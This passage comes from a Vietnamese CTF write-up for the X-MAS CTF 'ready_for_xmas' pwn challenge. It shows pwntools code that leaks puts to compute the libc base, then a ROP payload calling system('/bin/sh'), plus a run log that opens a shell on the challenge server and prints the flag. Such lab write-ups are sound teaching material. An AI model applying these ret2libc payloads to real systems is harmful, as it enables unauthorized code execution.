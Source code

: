 ```
    leak_puts = u64(recieved.ljust(8,b"\x00")) # lay dia chi cua ham puts dc in ra
   
    print "puts: ", hex(leak_puts)
    offset_puts = libc.symbols['puts']
    print "off_puts: ", hex(offset_puts)
    libc_base = leak_puts - offset_puts
```
### Việc còn lại ta chỉ cần thay chỗ rdi thành địa chỉ của "/bin/sh" chỗ ret thì ta cho 1 địa chỉ rác còn kế tiếp là địa chỉ của hàm system:
```
    payload = "A"*0x1f
    payload += "\x00"
    payload += "A"*0x20
    payload +=  p64(bss_addr+0x30)   #rbp 
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(pop_ret)
    payload += p64(system)
    p.sendline(payload)
```
> chạy file exploit:
```
[+] Opening connection to challs.xmas.htsp.ro on port 2001: Done
puts:  0x7f8ba521baa0
off_puts:  0x80aa0
[*] Switching to interactive mode
$ cat /home/ctf/flag.txt
X-MAS{l00ks_lik3_y0u_4re_r3ady}
$
```
file exploit: [echall.py](https://github.com/19520611/Writeup/blob/main/xmasCTF/src/ready_for_xmas/echall.py)
>flag: X-MAS{l00ks_lik3_y0u_4re_r3ady}


## Cảm ơn các bạn đã đọc .Do kiến thức còn hạn hẹp có gì sai sót mong các bạn góp ý mình sẽ sửa ngay!!!
## Cuối cùng, cảm ơn anh Phiêu Lãng đã giúp đỡ nhiệt tình, nhờ vậy mà em mới giải quyết được bài này.
